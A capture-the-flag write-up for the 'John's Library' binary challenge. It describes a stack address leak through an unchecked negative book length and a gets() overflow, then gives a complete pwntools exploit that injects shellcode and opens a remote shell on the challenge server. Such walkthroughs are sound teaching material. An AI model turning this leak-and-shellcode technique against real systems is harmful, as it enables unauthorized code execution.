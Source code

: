 # John's Library
Do you like reading books? here we have the best collection ever! you can even save some books for future reading!! enjoy noob!

## Recon
We are presented with the following menu upon connection:
```
Welcome to the jungle library mate! Try to escape!!

r - read from library
a - add element
u - exit
```

There is two bits of functionality that we have access to

### Add book to library
```
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title:
8
deadbeef
```
With adding a book, we input two values:
* Length of the text
* The text itself

The interesting bit is that the length of each book is stored in a global array located at `0x804a060`. The text is stored in a buffer located on the stack. This address is passed to both the read and add functions as an argument.

### Reading from the library
```
 r - read from library
 a - add element
 u - exit
r
Insert the index of the book you want to read: 0
deadbeef
```

This function takes the index of a book and reads the information stored at that index. This calculation is done by reading the corresponding stored length from `0x804a060 + index`
and adding that length to the beginning of the buffer passed to the function (which is also on the stack).

### Vulnerabilities
There are two bugs in the code.
* The data stored in the buffer is read via a `gets()` call, causing a traditional stack overflow. This is exploited upon exiting the program.
* The length of the book isn't checked for being negative. This allows us to arbitrarily read valvues on the stack. It just so happens that the start of the buffer is pushed on the stack as a parameter to both read and add functions. An example stack is below (addresses are not accurate)

```
+-------------------+
| Pointer to buffer | 0x400000
+-------------------+
| .....             |
+-------------------+
| Buf               | 0x40001b
|                   |
|                   |
+-------------------+
```


### Exploit
The stack is randomized on the remote server. We can't hard code the stack address, as we won't know what it is at execution. We have to leak this address.

By supplying a `-0x1b` length for the first book and then reading that book's index, we can actually read the beginning of the buffer, giving us a static address to jump to for our shellcode.


Exploit will work as follows:
* Create a book with `-28` length (data for the book is irrevelent)
* Read that book via index 0 and retrieve the 4 bytes of the stack
* Add a second book, but this time overflow via `gets()` with our shellcode at the beginning of the buffer and returning to our leaked stack address.
* Exit the program via `u`
* ???
* Profit

### Exploit code

```python
from pwn import *

"""
Both functions are given a pointer to a stack address (named BUFF)
Add function (overflow):
Drops the given length into a global buffer starting at 0x804a060
There is no negative check, so feeding a negative value passes the check
Vulnerable gets() function drops input into BUFF

Read (mem leak):
Takes the previously given length from add and adds that offset in BUFF
Because we can use negative values, we can looks backwards on the stack
to discover the beginning address of BUFF

Exit (trigger):
The overflow from the add isn't exploited until exiting the program
"""


# r = process('./johns-library')
r = remote('library.polictf.it', 80)

# Debugging help with gdb
'''
gdb.attach(r, """
bp 0x8048640
bp 0x8048742
c
""")
'''

log.info("Setting up leak of buffer")
r.sendline('a')
r.sendline(str(-28)) # Set len to subtract to find original buffer location
r.sendline()

log.info("Leaking buffer")
r.sendline('r')
r.sendline('1')
r.recv()
r.recv()
r.recvuntil('read: ')

ret = r.recv()[:4]

log.info('Got buffer: {}'.format(ret[::-1].encode('hex')))

log.info("Preparing shellcode")
shellcode = '\x90' * 900 + asm(shellcraft.sh())

payload = shellcode
payload += cyclic(cyclic_find('aaks') - len(shellcode))
payload += ret
payload += 'a' * (1000 - len(payload))

log.info("Sending shellcode")
r.sendline('a')
r.sendline(payload)

log.info("Exiting problem, causing the exploit")
r.sendline('u')

log.success("And your shell...")
r.interactive()
```
